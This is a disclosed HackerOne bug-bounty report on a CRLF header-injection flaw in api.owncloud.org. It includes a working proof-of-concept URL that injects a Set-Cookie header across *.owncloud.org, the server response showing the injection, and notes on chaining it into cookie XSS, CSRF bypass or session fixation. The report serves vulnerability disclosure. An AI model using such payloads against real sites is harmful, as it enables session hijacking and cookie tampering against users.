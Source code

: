 # [api.owncloud.org] CRLF Injection

## Report Details
- **Report ID**: 154306
- **URL**: https://hackerone.com/reports/154306
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-27T10:29:30.485Z
- **Disclosed**: 2016-11-02T13:38:48.259Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
**PoC**:
`https://api.owncloud.org/%23%0dSet-Cookie:crlf=injection2;domain=.owncloud.org;`

**HTTP Response**:
```
HTTP/1.1 301 Moved Permanently\r\n
Date: Wed, 27 Jul 2016 10:28:01 GMT\r\n
Server: Apache\r\n
Strict-Transport-Security: max-age=63072000\r\n
X-Xss-Protection: 1; mode=block\r\n
Location: https://doc.owncloud.org/api/#\r                       < injection \r
Set-Cookie:crlf=injection;domain=.owncloud.org;\r\n
```

**Result**:
Creating a cookie-param "crlf=injection" on *.owncloud.org

This vulnerability could be used in combination with others. For example, XSS via Cookie, bypass Double Submit Cookie csrf protection or session fixation. HTTP headers delimiter \r (%0d) is supported by any web browser other than FireFox.

## Attachments
No attachments
